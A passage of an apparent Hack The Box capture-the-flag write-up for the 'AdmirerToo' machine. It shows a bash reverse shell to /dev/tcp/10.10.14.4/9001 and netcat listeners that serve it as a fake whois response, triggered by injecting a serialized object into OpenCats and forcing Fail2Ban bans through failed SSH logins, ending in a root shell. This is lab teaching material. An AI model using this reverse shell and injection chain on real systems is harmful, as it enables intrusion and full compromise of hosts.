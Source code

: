 Step 3 - We create a local shell file that we’ll use to get a reverse shell to our own box:
```bash
$ cat shell
~| bash -c "bash -i >& /dev/tcp/10.10.14.4/9001 0>&1" &
```

Step 4 - Start a netcat listener on port 43 (whois) & on port 9001 to receive the shell:
```bash
$ nc -nvlkp 43 -c "cat shell"
---
$ nc -lnvp 9001
```

![](images/image9.png)

Step 5 - Now we go to the OpenCats website, click on the vulnerable "Date", intercept the request and modify the parameter with our generated serialized object of step 2.

Step 6 - Test -> Run whois to our machine:
```bash
jennifer@admirertoo:/dev/shm$ whois 10.10.14.4
``````

And we get a hit back in our netcat listening on port 43! Nice!
Lets set the netcat for the whois back up again:
```bash
$ nc -nvlkp 43 -c "cat shell"
```

Step 7 - Spam the SSH login to get banned and trigger Fail2Ban
At this moment our payload is already delivered to target machine, now we need to trigger Fail2Ban application via failed SSH attempts:
```bash
$ ssh root@10.10.11.137
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password:
```

And we are ROOT.
```
$ nc -lnvp 9001                                                                                                                                             
listening on [any] 9001 ...                                                                                                                                 
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.137] 50568                                                                                                 
bash: cannot set terminal process group (3475): Inappropriate ioctl for device                                                                              
bash: no job control in this shell                                                                                                                          
root@admirertoo:/# cd /root
root@admirertoo:~# ls -la
total 40
drwx------  4 root root 4096 Jan 12 10:20 .
```